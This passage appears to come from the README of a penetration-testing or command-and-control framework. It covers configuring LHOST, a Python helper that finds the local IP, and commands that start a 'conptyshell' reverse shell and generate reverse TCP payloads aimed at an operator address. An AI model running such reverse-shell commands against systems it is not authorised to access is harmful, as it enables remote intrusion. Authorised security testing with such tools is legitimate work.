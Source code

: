### Configuring LHOST 🖥️

When using commands like `conptyshell`, you must specify an `LHOST` value (your machine’s IP address). **Do not use `eth0`**, instead use your **actual IP**.

You can dynamically retrieve your local IP address using this Python code:

```python
import socket

# Get local IP address dynamically
def get_lhost():
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.connect(("8.8.8.8", 80))  # Connect to a public DNS to get local IP
    ip_address = s.getsockname()[0]
    s.close()
    return ip_address

lhost = get_lhost()
print(f"Your LHOST IP address is: {lhost}")
```

To manually find your IP address:
- **Linux**: `ip addr show` or `ifconfig`
- **Windows**: `ipconfig`
- **macOS**: `ifconfig`

Example:
```bash
conptyshell 192.168.1.1 4444 session_123
```

---

## 💻 Payloads

You can use **payload generators** for creating custom payloads for different platforms. The framework supports multiple payload types, including reverse TCP shells, bind shells, and others.

Example for reverse TCP payload:
```bash
python3 payload_generator.py reverse_tcp 192.168.1.1 4444
```

This will generate a reverse TCP payload for your specific IP and port.

---

## 📝 Notes

- **LHOST Configuration**: Always use your actual IP (e.g., `192.168.1.1`) instead of `eth0`.
- **Ethical Use**: This tool is for educational purposes and authorized security testing only. Unauthorized use is prohibited.

---
